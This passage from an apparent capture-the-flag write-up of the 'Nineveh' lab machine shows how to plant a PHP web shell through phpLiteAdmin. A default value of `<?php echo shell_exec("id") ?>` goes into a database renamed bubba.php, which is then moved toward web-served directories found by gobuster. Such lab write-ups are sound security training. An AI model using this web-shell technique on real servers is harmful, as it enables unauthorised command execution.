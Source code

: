 - Set the default value to `<?php echo shell_exec("id") ?>`:

![web10](./nineveh/web10.png)

- phpLiteAdmin shows the location of the database on the main page:

![web11](./nineveh/web11.png)

- Change the location of the database from `/var/tmp/bubba.php` to `/var/www/html/bubba.php`. This location is found by looking at `http://10.10.10.43/info.php` to see where the server is serving files from:

![web12](./nineveh/web12.png)

But this gives the following error:

```
Warning: copy(/var/www/html/bubba.php): failed to open stream: Permission denied in /var/www/ssl/db/index.php on line 1259
```

It seems like the HTTP site is served from `/var/www/html` and the HTTPS site is served from `/var/www/ssl/`. Try moving the file into the known `/db` or `/department` directories with the following paths from the `gobuster` scans that were running in the background:

```
/var/www/ssl/
/var/www/ssl/db/
/var/www/html/
/var/www/html/department/
/var/www/html/department/css/
/var/www/html/department/files/
```
